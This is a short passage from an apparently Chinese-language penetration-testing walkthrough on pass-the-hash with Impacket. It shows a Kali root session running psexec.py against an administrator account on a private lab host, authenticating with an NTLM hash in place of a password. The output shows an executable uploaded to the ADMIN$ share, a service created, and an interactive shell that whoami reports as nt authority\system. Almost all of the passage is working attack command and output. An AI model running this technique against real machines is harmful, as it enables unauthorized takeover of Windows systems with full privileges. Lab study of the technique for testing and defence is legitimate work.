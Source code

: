 ![](../images/eb9af27e6e676d149f4a9cd81046f2ca.png)

## 3、使用Impacket进行PTH
```plain
(base) ┌──(root㉿Kali)-[~]
└─# psexec.py administrator@10.10.4.21 -hashes :27d86657f458a28aeed03655ba6a6137
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Requesting shares on 10.10.4.21.....
[*] Found writable share ADMIN$
[*] Uploading file cYeGDDiA.exe
[*] Opening SVCManager on 10.10.4.21.....
[*] Creating service ivgL on 10.10.4.21.....
[*] Starting service ivgL.....
[!] Press help for extra shell commands                                                                                                                                                                                                                                                                                                Microsoft Windows [Version 10.0.19045.5737]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami                                                                                                                                                                                                                                                                                                             nt authority\system

```